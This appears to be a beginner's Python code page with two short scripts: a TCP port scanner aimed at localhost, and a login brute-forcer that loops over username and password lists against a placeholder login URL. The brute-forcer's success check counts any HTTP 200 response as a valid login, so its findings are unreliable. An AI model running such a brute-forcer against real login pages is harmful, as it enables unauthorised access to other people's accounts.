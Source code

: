 # Port Scanner
import socket

def scan_port(host): # function is creted to scan ports
    print(f"Scanning ports on {host}...")
    for port in range(20, 1025):
        s = socket.socket()
        s.settimeout(0.5)
        try:
            s.connect((host, port))
            print(f"Port {port} is open")
        except:
            pass
        s.close()

# Example
scan_port("127.0.0.1")
# Brute Force login
import requests

def brute_force_login(url, username_list, password_list):  # function is defined to login brute force
    for username in username_list:
        for password in password_list:
            data = {'username': username, 'password': password}
            response = requests.post(url, data=data)
            if "Welcome" in response.text or response.status_code == 200:
                print(f"Valid login found: {username}:{password}")
                return

# Usage
brute_force_login("http://example.com/login", ["admin", "user"], ["1234", "admin123"])

